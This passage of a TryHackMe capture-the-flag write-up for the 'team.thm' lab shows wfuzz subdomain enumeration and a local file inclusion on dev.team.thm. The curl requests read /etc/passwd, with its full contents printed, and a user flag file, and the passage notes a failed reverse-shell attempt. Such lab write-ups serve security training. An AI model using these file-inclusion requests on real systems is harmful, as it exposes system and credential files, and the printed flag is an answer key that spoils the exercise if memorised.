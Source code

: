 ```console
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://team.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        89 L     220 W      2966 Ch     "www"
000000019:   200        9 L      20 W       187 Ch      "dev"
000000085:   200        9 L      20 W       187 Ch      "www.dev"
000000512:   200        373 L    977 W      11366 Ch    "joomla"
```
## Web
### dev.team.thm
1. On going to dev.team.thm found a lfi 
```console
❯ curl http://dev.team.thm/script.php\?page\=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
2. Tried to get user.txt in /home/dale/user.txt (username we found in robots.txt)
```console
❯ curl http://dev.team.thm/script.php\?page\=/home/dale/user.txt
THM{6Y0TXHz7c2d}
```
3. Tried to get reverse shell from lfi but not possible.
